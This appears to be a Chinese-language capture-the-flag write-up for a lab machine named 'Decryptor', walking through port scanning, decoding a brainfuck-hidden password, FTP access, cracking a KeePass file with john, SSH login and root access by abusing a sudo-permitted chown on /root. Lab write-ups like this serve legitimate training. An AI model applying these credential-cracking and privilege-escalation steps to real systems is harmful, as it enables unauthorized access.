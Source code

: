 # Decryptor

2025.03.06 https://thehackerslabs.com/decryptor/

## Ip

192.168.5.39

## Scan

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
2121/tcp open  ccproxy-ftp
```

80 web 源码底部发现 brainfuck 编码:

```
++++++++++[>+++++++++++>++++++++++>+++++++++++>+++++++++++>+++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++++>+++++++++++>++++++++++>++++++++++++>++++++++++++>++++++++++>++++++++++<<<<<<<<<<<<<<<-]>-.>---.>++++.>-----.>+.>+.>---.>----.>-----.>--.>+.>----..>---.>-.>+.

marioeatslettuce
```

像是个密码

对 80 扫描什么都没发现，只有上面这个字符串在仔细看看，好像能分解成 `mario eatslettuce` 或者 `mario:marioeatslettuce` 尝试登陆 ssh 和 ftp，发现`mario:marioeatslettuce`能登陆 ftp。

发现 keeppass 文件 user.kdbx，使用 john 找到其密码为 moonshine1 ，在线解密 https://app.keeweb.info/ 输入密码，得到加密内容: `chiquero:barcelona2012` 应该是 ssh 的凭据进行登陆。

先拿到 user flag：

```
chiquero@Decryptor:/home/mario$ cat user.txt
sfds5gf6sfdcdafsd5a7sdcydsf58
```

sudo -l 发现 chown 可以直接修改 /root 目录所有者：

```
chiquero@Decryptor:/var/www/html$ sudo chown chiquero:chiquero /root
chiquero@Decryptor:/var/www/html$ cd /root
chiquero@Decryptor:/root$ ls
root.txt
chiquero@Decryptor:/root$ cat root.txt
84c853bhfs5gsdfvsf4dasbsrha3a
```
